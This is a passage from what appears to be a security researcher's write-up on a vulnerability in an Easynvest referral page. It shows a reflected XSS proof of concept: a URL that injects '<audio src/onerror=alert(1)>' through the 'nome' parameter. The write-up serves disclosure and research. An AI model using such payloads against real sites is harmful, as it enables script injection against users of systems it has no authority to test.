 ![](/images/publications/easynvest-cookie-bomb/view-invite.png)

Through this, I thought about the possibility of building an XSS payload that took advantage of this and after a few attempts I managed to arrive at something valid:

- [https://indique.easynvest.com.br/?nome=<audio src/onerror=alert(1)>&id=1](https://indique.easynvest.com.br/?nome=<audio src/onerror=alert(1)>&id=1)
